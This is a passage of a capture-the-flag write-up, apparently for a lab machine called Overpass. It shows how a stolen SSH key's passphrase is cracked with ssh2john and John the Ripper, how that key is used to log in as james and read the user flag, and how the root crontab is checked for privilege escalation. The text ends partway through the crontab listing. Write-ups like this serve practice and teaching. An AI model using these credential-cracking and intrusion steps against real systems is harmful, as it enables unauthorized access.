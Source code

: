 1. change the file to a format familiar with `john` 
`☺ ssh2john.py ssh.key > ssh.hash`

2. crack `ssh.hash`
`☺ sudo john ssh.hash --wordlist=/usr/share/wordlists/rockyou.txt`

```
Note: This format may emit false positives, so it will keep trying even after finding a
possible candidate.
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
-------          (ssh.key)
1g 0:00:00:05 DONE (2020-08-19 16:47) 0.2000g/s 2868Kp/s 2868Kc/s 2868KC/sa6_123..*7¡Vamos!
Session completed. 
```

The password (------) is found. Let’s connect as james and get the user flag by logging in to SSH

```
☺ ssh -i ssh.key james@10.10.34.125
load pubkey "ssh.key": invalid format
Enter passphrase for key 'ssh.key': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Aug 19 14:48:09 UTC 2020

  System load:  0.15               Processes:           88
  Usage of /:   22.4% of 18.57GB   Users logged in:     0
  Memory usage: 12%                IP address for eth0: 10.10.34.125
  Swap usage:   0%


47 packages can be updated.
0 updates are security updates.


Last login: Sat Jun 27 04:45:40 2020 from 192.168.170.1
james@overpass-prod:~$ cat user.txt 

```

__Escalate your privileges and get the flag in root.txt__

Analyzing the crontab shows that there is a script executed by root every minute:

```
james@overpass-prod:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
```